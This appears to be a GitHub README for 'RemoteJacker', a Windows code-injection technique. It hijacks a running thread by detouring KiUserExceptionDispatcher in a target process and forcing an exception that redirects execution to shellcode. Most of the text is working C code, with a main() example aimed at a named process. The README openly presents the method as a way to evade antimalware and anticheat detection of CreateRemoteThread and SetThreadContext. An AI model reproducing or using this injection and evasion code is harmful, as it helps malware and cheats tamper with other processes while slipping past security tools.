 # Remote Thread Executor

## Overview

This is about code injection via hijacking threads instead of creating a remote thread. There are methods of code injection where you can create a thread from another process using **CreateRemoteThread** at an executable code location (Or DLL Injection via **CreateRemoteThread** and executing **LoadLibrary**, passing an argument in the **CreateRemoteThread** routine).

There are other ways of code injection to, one of them is hijacking an already running thread. Most methods to do this use **GetThreadContext** and **SetThreadContext**. That method suspends the thread(s) or the process, gets the context of a running thread in a process, writes the extended instruction pointer in the context structure to that of another executable location, then it sets the thread context and resumes the thread(s) or process.

Of course, **CreateRemoteThread** is preferred to not interrupt an application while it's doing something possibly important. Thread hijacking is commonly used to bypass anticheats and antimalware. Antimalware checks for routines that could be used for code injection and are suspicious (**CreateRemoteThread**), while anticheats (espec. kernel-mode anticheats) would attempt to block opening a handle to a thread that they have ownership of from another process. They would also prevent the use of **SetThreadContext** for their threads. The more known a method is, the more anticheats implement ways to obstruct those methods.

**RemoteJacker** detours the SEH dispatcher to an executable code location the developer wants. It causes the thread to redirect to this area by throwing an exception.

```C
ULong GetDispatcher(ULong ProcessId)
{
	NTPtr Dispatcher = (NTPtr)GetProcAddress(GetModuleHandleA("ntdll.dll"), "KiUserExceptionDispatcher");
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);

	if (!Process)
		return NULL;
	else
		CloseHandle(Process);
	
	ULong Difference = ((ULong)Dispatcher - (ULong)GetModuleHandleA("ntdll.dll"));
	return (GetModuleBase(ProcessId, L"ntdll.dll") + Difference + 1);
}
```

The **GetDispatcher** function gets the virtual address of **KiUserExceptionDispatcher** and returns it as an integral type.

```C
ULong MarkShellCode(ULong ProcessId, ULong Shellcode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Shellcode, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);

	CloseHandle(Process);
	return FormerProtection;
}
```

The **MarkShellCode** function sets the memory region protections at the executable location (Or Shellcode) and returns the former page protection.

```C
void SetDispatcher(ULong ProcessId, ULong Address, ULong ShellCode)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Address, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteHook(Process, GetDispatcher(ProcessId), ShellCode);
	VirtualProtectEx(Process, (LPVOID)Address, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **SetDispatcher** function detours KiUserExceptionDispatcher in the target process.

```C
void RemoteJack(ULong ProcessId, ULong Target)
{
	HANDLE Process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
	ULong FormerProtection;

	VirtualProtectEx(Process, (LPVOID)Target, 1, PAGE_EXECUTE_READWRITE, &FormerProtection);
	WriteProcessMemory(Process, (LPVOID)Target, "\xF4", 1, 0);
	VirtualProtectEx(Process, (LPVOID)Target, 1, FormerProtection, &FormerProtection);

	CloseHandle(Process);
}
```

The **RemoteJack** function causes an exception to occur at a thread's instruction pointer and it gets handled by SEH so we can redirect it in the dispatcher.

Here is an example: 

```C
int main(void)
{
	ULong PId = FindProcessIdFromProcessName(L"test.exe");
	ULong Dispatcher = GetDispatcher(PId);
	ULong ShellCode = 0x04E90000;
	ULong TargetVal = 0x00C92D50;
	ULong Protection = MarkShellCode(PId, ShellCode);

	SetDispatcher(PId, Dispatcher, ShellCode);
	RemoteJack(PId, TargetVal);

    return 0;
}

```

This hijacks an already existing thread without opening any thread handles and you can choose the location that the thread gets hijacked at, unlike **GetThreadContext & SetThreadContext**. This method is also very simple to implement.
